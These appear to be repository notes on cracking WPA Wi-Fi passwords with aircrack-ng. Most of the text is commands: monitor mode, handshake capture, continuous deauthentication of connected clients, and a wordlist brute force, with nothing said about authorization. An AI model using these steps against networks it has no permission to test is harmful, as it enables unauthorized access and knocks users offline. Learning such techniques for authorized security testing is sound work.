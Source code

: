 Since WPA is a strong protocol we can't simply hack it, but we can bruteforce it!

### Useful Commands

First we want to turn on the interface in monitor mode, given that the monitor mode is supported by your card, but we have to kill the processes that interfere with the process of turning the interface into monitor mode.

```bash
# Kill the processes that interfere with starting wlan0 in monitor mode
sudo ifconfig wlan0 down
sudo kill $(pgrep NetworkManager)
sudo kill $(pgrep wpa_supplicant)
# Now put the interface in monitor mode, put the interface up and restart network manager and 
sudo airmon-ng start wlan0
```

To check if the monitor mode is on and working, we can use the following command:

```bash
sudo iwconfig
```

Now we might need to unplug the USB device then plug it back.

Then we run the following command to start capturing packets:

```bash
sudo airodump-ng wlan0
# To only display the access point that we want, we can use the following command
sudo airodump-ng wlan0 -d <BSSID>
```

Now we can use the following command to write the captures to a file:

```bash
sudo airodump-ng -w <name of file> -c <channel> --bssid <BSSID> wlan0
```

Next ,we will disconnect a device from a network using deauth packet on another terminal so we can capture a handshake, and to do so we will use the following command:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0
# We can find the 4-way handshake with EAPOL packets on wireshark
```

Finally we will start brute forcing by using the following command:

```bash
aircrack-ng <.cap file> -w /usr/share/wordlists/rockyou.txt
```

Note: if we want to go back into managed mode, we can use the following commands:

```bash
sudo airmon-ng stop wlan0
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed 
sudo service NetworkManager restart  
sudo service wpa_supplicant restart
sudo ifconfig wlan0 up
```

Note: you might need to toggle Wi-Fi button from top-right menu. 

In case the network manager gets stuck, use the following commands:

```bash
sudo apt-get install --reinstall network-manager
sudo apt-get install --reinstall wpasupplicant
sudo apt-get install --reinstall isc-dhcp-client
```